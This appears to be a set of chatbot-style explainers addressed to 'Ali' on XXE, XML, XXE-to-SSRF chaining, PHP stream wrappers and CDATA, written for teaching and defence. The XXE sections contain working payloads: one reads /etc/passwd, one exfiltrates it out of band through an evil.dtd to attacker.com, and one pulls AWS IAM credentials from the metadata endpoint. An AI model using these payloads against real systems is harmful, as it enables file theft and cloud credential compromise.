


Absolutely Ali — let’s break down **data transmission from an XXE (XML External Entity) vulnerability perspective** completely. This is a powerful and often misunderstood attack vector that targets how applications  **parse and process XML data** , especially when they allow external entities.

---

## 🧠 What Is XXE?

**XXE (XML External Entity)** is a vulnerability that occurs when an XML parser processes **external entities** embedded in XML documents.

If the parser is  **misconfigured or insecure** , attackers can use XXE to:

* **Read local files**
* **Send internal data to external servers**
* **Perform SSRF (Server-Side Request Forgery)**
* **Execute denial-of-service attacks**

> In short: XXE turns XML parsing into a weapon for data exfiltration and internal network access.

---

## 🔁 How Data Transmission Happens in XXE

### 🔹 Step-by-Step Flow:

1. **Attacker crafts malicious XML** with an external entity:

```xml
<?xml version="1.0"?>
<!DOCTYPE data [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<data>&xxe;</data>
```

2. **Application receives and parses XML** (e.g., via API, upload, SOAP)
3. **Parser resolves the entity** and replaces `&xxe;` with the contents of `/etc/passwd`
4. **Data is transmitted** :

* Back to the attacker in the response
* Or sent to an external server via a remote entity:

```xml
<!ENTITY xxe SYSTEM "http://attacker.com/steal?data=file:///etc/passwd">
```

5. **Attacker receives sensitive data** — without direct access to the server

---

## 🧨 Real-World Data Transmission Scenarios via XXE

| Scenario                                 | Description                                                      |
| ---------------------------------------- | ---------------------------------------------------------------- |
| **File Disclosure**                | Read sensitive files like `/etc/passwd`,`.env`, config files |
| **Out-of-Band (OOB) Exfiltration** | Send data to attacker-controlled server via HTTP                 |
| **SSRF via XML**                   | Access internal services (e.g., metadata endpoints)              |
| **Credential Theft**               | Read keys, tokens, or passwords stored in files                  |
| **DoS via Billion Laughs**         | Overload parser with recursive entities                          |

---

## 🧪 Example: OOB Data Transmission

```xml
<?xml version="1.0"?>
<!DOCTYPE data [
  <!ENTITY % file SYSTEM "file:///etc/passwd">
  <!ENTITY % dtd SYSTEM "http://attacker.com/evil.dtd">
  %dtd;
]>
<data>&exfil;</data>
```

And on `evil.dtd`:

```xml
<!ENTITY exfil SYSTEM "http://attacker.com/?data=%file;">
```

✅ This sends the contents of `/etc/passwd` to `attacker.com` —  **data transmission via XXE** .

---

## 🔐 How to Prevent XXE-Based Data Transmission

### ✅ 1. Disable External Entity Resolution

* Configure XML parsers to disallow `SYSTEM` and `PUBLIC` entities

### ✅ 2. Use Secure Parsers

* Prefer libraries that disable XXE by default (e.g., `defusedxml` in Python)

### ✅ 3. Validate and Sanitize Input

* Reject unexpected XML structures
* Use schemas to enforce safe formats

### ✅ 4. Use JSON Instead of XML

* JSON doesn’t support external entities

### ✅ 5. Monitor and Log

* Detect unusual outbound traffic or XML parsing errors

---

## ✅ Final Summary

| XXE Risk         | Data Transmission Path                  |
| ---------------- | --------------------------------------- |
| File Disclosure  | Local file read via entity              |
| OOB Exfiltration | Remote HTTP request with file content   |
| SSRF             | Internal service access via entity      |
| Credential Theft | Read secrets and send externally        |
| DoS              | Overload parser with recursive entities |

> XXE is like a **backdoor hidden in a document** — it turns a simple XML upload into a full-blown data breach.

---


Absolutely Ali — let’s dive deep into  **XML (eXtensible Markup Language)** . It’s a foundational technology for data exchange, configuration, and document structure across countless systems — from web services to mobile apps to enterprise software.

---

## 🧠 What Is XML?

**XML** is a markup language designed to **store and transport data** in a structured, human-readable format.

It’s not a programming language — it’s a **data format** that defines rules for encoding documents.

> Think of XML as a customizable container for data — like HTML, but for any kind of information.

---

## 📦 Basic Structure of XML

```xml
<?xml version="1.0" encoding="UTF-8"?>
<user>
  <name>Ali</name>
  <age>25</age>
  <isAdmin>true</isAdmin>
</user>
```

### 🔹 Key Components:

* **Declaration** : `<?xml version="1.0"?>`
* **Elements** : `<name>Ali</name>`
* **Attributes** : `<user id="123">`
* **Hierarchy** : Nested elements represent relationships
* **Text Content** : Data between opening and closing tags

---

## 🔍 Why XML Is Used

| Use Case                      | Description                                        |
| ----------------------------- | -------------------------------------------------- |
| **Data exchange**       | Between systems (e.g., APIs, SOAP)                 |
| **Configuration files** | App settings, build tools                          |
| **Document formats**    | Office files, SVG, RSS                             |
| **Metadata**            | Describing resources (e.g., in media or libraries) |

---

## 🧪 XML vs JSON

| Feature        | XML                              | JSON                               |
| -------------- | -------------------------------- | ---------------------------------- |
| Syntax         | Verbose, tag-based               | Lightweight, key-value             |
| Readability    | Human-readable but bulky         | Easier to read                     |
| Data types     | All values are strings           | Supports numbers, booleans, arrays |
| Schema support | Strong (XSD, DTD)                | Limited (JSON Schema)              |
| Comments       | Supported (`<!-- comment -->`) | Not supported                      |

> XML is better for **complex, hierarchical data** and strict validation. JSON is better for  **speed and simplicity** .

---

## 🔐 XML in Security Contexts

### ⚠️ Common Vulnerabilities:

* **XXE (XML External Entity)** : Allows reading files or SSRF
* **XPath Injection** : Similar to SQL injection, but targets XML queries
* **Billion Laughs Attack** : DoS via recursive entities

### ✅ Prevention Tips:

* Disable external entity resolution
* Use secure parsers (e.g., `defusedxml` in Python)
* Validate against schemas (XSD)
* Sanitize input before parsing

---

## 🛠 XML Technologies

| Tool                                  | Purpose                                      |
| ------------------------------------- | -------------------------------------------- |
| **DOM (Document Object Model)** | Tree-based XML manipulation                  |
| **SAX (Simple API for XML)**    | Event-driven parsing                         |
| **XPath**                       | Query language for XML                       |
| **XSLT**                        | Transform XML into other formats             |
| **XSD / DTD**                   | Define structure and rules for XML documents |

---

## 🧠 Example: XML with Attributes and Nested Elements

```xml
<order id="A123">
  <customer>
    <name>Ali</name>
    <email>ali@example.com</email>
  </customer>
  <items>
    <item>
      <name>Keyboard</name>
      <price>49.99</price>
    </item>
    <item>
      <name>Mouse</name>
      <price>19.99</price>
    </item>
  </items>
</order>
```

This structure is perfect for transmitting complex data like orders, invoices, or user profiles.

---

## ✅ Final Summary

| Concept              | Role                                       |
| -------------------- | ------------------------------------------ |
| **XML**        | Structured data format                     |
| **Elements**   | Define data blocks                         |
| **Attributes** | Add metadata to elements                   |
| **Schemas**    | Enforce structure and rules                |
| **Security**   | Must be hardened against XXE and injection |

> XML is like a **universal language for machines** — flexible, powerful, and deeply embedded in modern tech.

---





Absolutely Ali — let’s dive deep into how **XXE (XML External Entity)** and **SSRF (Server-Side Request Forgery)** can be **combined** to create a powerful attack chain. This combo is especially dangerous because it allows attackers to  **leverage XML parsing to pivot inside internal networks** , exfiltrate data, and reach services that are normally inaccessible.

---

## 🧠 Quick Refresher

### 🔹 XXE (XML External Entity)

* A vulnerability in XML parsers that allows attackers to define  **external entities** .
* These entities can reference  **local files** ,  **remote URLs** , or even trigger  **recursive payloads** .

### 🔹 SSRF (Server-Side Request Forgery)

* A vulnerability that allows attackers to make the **server send HTTP requests** to internal or external resources.
* Often used to access  **internal services** ,  **cloud metadata** , or  **private APIs** .

---

## 🔗 How XXE Leads to SSRF

When an XML parser allows external entities, attackers can define an entity that points to a **URL** — and the server will fetch it. If that URL is internal (e.g., `http://localhost`, `http://169.254.169.254`), the attacker has achieved SSRF  **via XXE** .

> In other words: XXE becomes the delivery mechanism, and SSRF is the payload.

---

## 🧪 Example: XXE + SSRF Payload

```xml
<?xml version="1.0"?>
<!DOCTYPE data [
  <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/">
]>
<data>&xxe;</data>
```

### 🔥 What Happens:

* The XML parser fetches the URL defined in `SYSTEM`
* That URL points to the  **AWS metadata service** , accessible only from inside the server
* The response (IAM credentials) is injected into the XML output
* Attacker receives sensitive cloud credentials

---

## 🧨 Targets of XXE+SSRF

| Target                             | Description                            |
| ---------------------------------- | -------------------------------------- |
| **Cloud metadata endpoints** | AWS, GCP, Azure secrets                |
| **Internal dashboards**      | Admin panels, monitoring tools         |
| **Private APIs**             | Microservices, internal REST endpoints |
| **Localhost services**       | Redis, Elasticsearch, Jenkins          |
| **Other containers**         | SSRF can pivot across Docker networks  |

---

## 🔐 Why It’s Dangerous

| Risk                 | Impact                                         |
| -------------------- | ---------------------------------------------- |
| Credential theft     | Access tokens, IAM secrets                     |
| Privilege escalation | Use stolen credentials to gain admin access    |
| Data exfiltration    | Leak internal data via HTTP                    |
| Network pivoting     | Map internal services and ports                |
| Full compromise      | Chain with RCE or injection for total takeover |

---

## 🛡 How to Prevent XXE + SSRF

### ✅ 1. Disable External Entity Resolution

* Configure XML parsers to reject `SYSTEM` and `PUBLIC` entities

### ✅ 2. Use Secure Parsers

* Use libraries that disable XXE by default (e.g., `defusedxml` in Python)

### ✅ 3. Block Internal IP Access

* Prevent outbound requests to `127.0.0.1`, `169.254.169.254`, `10.0.0.0/8`, etc.

### ✅ 4. Validate XML Input

* Use schemas and reject unexpected structures

### ✅ 5. Monitor Outbound Traffic

* Detect unusual requests to internal services

---

## ✅ Final Summary

| Technique          | Role                                             |
| ------------------ | ------------------------------------------------ |
| **XXE**      | Injects external entity into XML                 |
| **SSRF**     | Forces server to fetch internal URL              |
| **Combined** | Attacker uses XML to pivot into internal network |

> XXE + SSRF is like **smuggling a spy into your server** — the XML parser opens the door, and SSRF lets them explore the building.

---


Absolutely Ali — let’s break down **PHP wrappers** and **CDATA** completely. These are two very different but powerful concepts in web development and security. One deals with  **stream handling in PHP** , and the other with  **XML data encapsulation** .

---

## 🧠 Part 1: PHP Wrappers

### 🔹 What Are PHP Wrappers?

**PHP wrappers** are part of PHP’s  **stream handling system** . They allow you to interact with different types of resources (files, URLs, memory, etc.) using a unified interface — like `fopen()`, `file_get_contents()`, or `stream_context_create()`.

> Think of wrappers as **protocol handlers** — they tell PHP how to interpret and access a resource.

---

### 🔍 Common PHP Wrappers

| Wrapper                  | Purpose                                                       |
| ------------------------ | ------------------------------------------------------------- |
| `file://`              | Access local files                                            |
| `http://`,`https://` | Fetch remote content via HTTP                                 |
| `ftp://`               | Access files via FTP                                          |
| `php://input`          | Read raw POST data                                            |
| `php://memory`         | Temporary in-memory stream                                    |
| `php://temp`           | Memory stream with fallback to disk                           |
| `data://`              | Inline data stream (base64 or plain text)                     |
| `glob://`              | Pattern-based file matching                                   |
| `zip://`               | Access files inside ZIP archives                              |
| `expect://`            | Execute commands and interact with them (disabled by default) |

---

### 🧨 Security Implications of PHP Wrappers

* **Remote File Inclusion (RFI)** : Using `http://` in `include()` or `require()` can allow attackers to load malicious code from external servers.
* **Local File Inclusion (LFI)** : Using `file://` with user input can expose sensitive files.
* **Command Execution** : `expect://` can be abused if enabled.
* **Data Exfiltration** : `data://` and `php://input` can be used to inject payloads.

> Wrappers are powerful — but when combined with insecure input handling, they become  **attack vectors** .

---

### ✅ Example: Using `php://input`

```php
$rawData = file_get_contents("php://input");
$data = json_decode($rawData, true);
```

This reads raw POST data — useful for APIs and JSON payloads.

---

## 🧠 Part 2: CDATA in XML

### 🔹 What Is CDATA?

**CDATA (Character Data)** is a section in XML that tells the parser to  **treat the enclosed content as literal text** , not markup.

> It’s like saying: “Don’t interpret this — just store it as-is.”

---

### 🔍 Syntax of CDATA

```xml
<message><![CDATA[<b>Hello, Ali!</b>]]></message>
```

* The `<b>` tags inside CDATA won’t be parsed as XML — they’ll be treated as raw text.
* CDATA starts with `<![CDATA[` and ends with `]]>`.

---

### ✅ Use Cases for CDATA

| Use Case                              | Description                                  |
| ------------------------------------- | -------------------------------------------- |
| **Embed HTML or scripts**       | Prevent XML parser from misinterpreting tags |
| **Preserve special characters** | Avoid escaping `&`,`<`,`>`             |
| **Store raw data**              | Logs, code snippets, or templates            |

---

### ⚠️ CDATA Limitations

* You **cannot nest CDATA** — `]]>` inside CDATA will break it.
* It’s **not encrypted or hidden** — just a parsing instruction.
* Overuse can make XML harder to validate or transform (e.g., with XSLT).

---

## ✅ Final Summary

| Concept                  | Role                                                                      |
| ------------------------ | ------------------------------------------------------------------------- |
| **PHP Wrappers**   | Protocol-based access to streams and resources                            |
| **CDATA**          | XML section for literal, unparsed text                                    |
| **Security Risks** | Wrappers can be abused for RFI, LFI, SSRF; CDATA can hide payloads in XML |
| **Use Cases**      | Wrappers for file/network access; CDATA for embedding raw content in XML  |

> PHP wrappers are like **universal adapters** for data access, while CDATA is a **safe zone** inside XML where nothing gets interpreted.

---




